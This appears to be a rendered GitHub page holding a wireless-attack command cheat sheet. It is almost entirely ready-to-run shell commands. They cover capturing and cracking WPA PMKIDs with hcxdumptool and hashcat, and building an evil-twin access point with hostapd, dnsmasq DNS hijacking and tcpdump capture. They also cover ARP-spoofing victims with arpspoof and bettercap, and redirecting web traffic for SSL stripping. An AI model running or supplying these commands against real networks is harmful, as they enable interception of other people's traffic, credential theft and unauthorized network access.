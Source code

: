 ```bash

# PMKID Attack
hcxdumptool -i wlan0 -o pmkid.pcapng --enable_status=1
hcxpcapngtool -o pmkid.hc22000 pmkid.pcapng
hashcat -m 22000 pmkid.hc22000 wordlist.txt
```

### Evil Twin

```bash
# hostapd Setup
cat > /tmp/hostapd.conf << EOF
interface=wlan0
ssid=TargetSSID
channel=6
hw_mode=g
EOF

# Managed Mode
ip link set wlan0 down
iw dev wlan0 set type managed
ip link set wlan0 up
ip addr add 192.168.10.1/24 dev wlan0

# Start hostapd
hostapd /tmp/hostapd.conf

# dnsmasq DHCP
cat > /tmp/dnsmasq.conf << EOF
interface=wlan0
dhcp-range=192.168.10.10,192.168.10.100,12h
dhcp-option=3,192.168.10.1
dhcp-option=6,192.168.10.1
address=/#/192.168.10.1
EOF
dnsmasq -C /tmp/dnsmasq.conf -d

# Internet Forwarding (optional, wenn zweites Interface)
echo 1 > /proc/sys/net/ipv4/ip_forward
iptables -t nat -A POSTROUTING -o wlan1 -j MASQUERADE
iptables -A FORWARD -i wlan0 -o wlan1 -j ACCEPT

# Traffic Capture
tcpdump -i wlan0 -w /tmp/evil_twin.pcap
```

### MITM Attacks

```bash
# ARP Spoofing
echo 1 > /proc/sys/net/ipv4/ip_forward
arpspoof -i wlan0 -t <VICTIM_IP> <GATEWAY_IP>
arpspoof -i wlan0 -t <GATEWAY_IP> <VICTIM_IP>

# bettercap
bettercap -iface wlan0
> net.probe on
> set arp.spoof.targets <VICTIM_IP>
> arp.spoof on
> net.sniff on

# SSL Strip
iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-port 8080
iptables -t nat -A PREROUTING -p tcp --dport 443 -j REDIRECT --to-port 8080
```